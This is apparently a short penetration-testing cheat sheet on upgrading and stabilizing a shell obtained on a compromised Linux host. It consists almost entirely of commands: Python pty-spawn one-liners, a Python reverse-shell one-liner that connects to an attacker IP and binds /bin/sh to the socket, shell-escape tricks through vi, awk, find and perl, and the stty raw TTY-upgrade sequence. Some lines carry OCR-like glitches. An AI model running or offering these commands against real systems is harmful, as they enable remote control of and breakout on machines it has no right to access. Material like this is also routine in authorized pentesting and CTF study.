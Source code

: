 ## Stabalizing a Linux Shell

	export TERM=linux
	
	python -c 'import pty; pty.spawn("/bin/sh")'
	
	python -c 'import pty; pty.spawn("/bin/bash")'
	
	python3 -c 'import pty; pty.spawn("/bin/sh")'
	
	python3 -c 'import pty; pty.spawn("/bin/bash")'
	
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),   *$ 1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	
	echo os.system('/bin/bash')
	
	/bin/sh -i
	
	exec "/bin/sh";
	
	perl —e 'exec "/bin/sh";'

Related Shell Escape Sequences...

    vi-->	:!bash
    vi-->	:set shell=/bin/bash:shell
    awk-->	awk 'BEGIN {system("/bin/bash")}'
    find-->	find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;
    perl-->	perl -e 'exec "/bin/bash";'

A common technique

	python -c 'import pty;pty.spawn("/bin/bash")'
	
	Ctrl+z
	
	stty raw -echo
	
	fg + [Enter x 2]
	
	echo $TERM
	
	export TERM=screen
	
	reset
	
	export SHELL=bash
	
	stty size
	
	stty rows 100 cols 100
	
	
### References
- https://infosecwriteups.com/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2
	